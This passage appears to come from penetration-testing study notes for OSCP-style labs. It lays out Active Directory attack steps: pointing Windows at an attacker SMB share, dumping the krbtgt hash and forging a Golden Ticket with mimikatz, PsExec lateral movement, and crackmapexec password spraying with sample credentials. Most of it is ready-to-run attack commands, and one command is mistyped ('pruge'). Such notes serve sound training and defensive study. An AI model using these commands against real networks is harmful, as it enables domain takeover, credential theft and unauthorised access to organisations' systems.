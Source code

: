 
2. windows:

   ```
   //<kali ip>/<file>
   
   dir \\<kali ip>\<none-existent SMB share>
   ```




#### 7. Golden Ticket

1. retrieve `krbtgt` password hash

   ```
   mimikatz# lsadump::lsa /patch
   ```

2. forge and inject golden ticket

   ```
   mimikatz# kerberos::pruge
   
   kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
   ```

   - **kerberos::purge** - delete any existing Kerberos tickets before generating golden ticket
   - domain SID - check with `whoami /user`
   - **kerberos::golden** create the golden ticket
   - use the **/krbtgt** option instead of **/rc4** to indicate we are supplying the password hash of the *krbtgt* user account.
   - starting July 2022, we'll need to provide an existing account
   - `/ptt`: This command is used to inject the created ticket directly into the current session.

3. verify 

   ```
   # CMD
   PsExec.exe \\dc1 cmd.exe
   ```

   must use hostname to connect, or using NTLM hash



### AD Lateral Movement

Use password & hash to move to another target / PE



#### 1. Password Spray

```shell
crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success

crackmapexec winrm iplist -u 'web_svc' -p 'Diamond1' -d oscp.exam --continue-on-success

crackmapexec mssql iplist -u 'sql_svc' -p 'Dolphin1' -d oscp.exam --continue-on-success

--local-auth
```
